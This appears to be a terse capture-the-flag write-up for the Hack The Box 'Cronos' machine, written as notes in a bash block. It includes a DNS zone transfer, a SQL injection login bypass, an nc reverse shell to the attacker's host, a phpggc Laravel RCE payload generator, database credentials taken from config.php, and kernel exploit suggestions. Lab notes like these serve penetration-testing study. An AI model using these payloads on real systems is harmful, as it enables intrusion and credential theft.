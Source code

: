 ```bash
php -d 'phar.readonly=0' phpggc/phpggc laravel/rce3 system command --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())


## enum domain agin
add to hosts.
10.129.119.83 cronos.htb 

domain dig
dig axfr @10.129.119.83 cronos.htb

add admin.cronos.htb www.cronos.htb to hosts.
10.129.119.83 cronos.htb admin.cronos.htb www.cronos.htb


sql injection test

username=admin'+--+-&password=admin 
302 to welcome.php


## exploit command injection

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.33 4444 >/tmp/f


### get real tty shell
python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=screen

stty raw -echo

## local enum
config.php, db creds
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');

linpeas.sh enum


Linux version 4.4.0-72-generic (buildd@lcy01-17) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) 

Sudo version 1.8.16


╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

```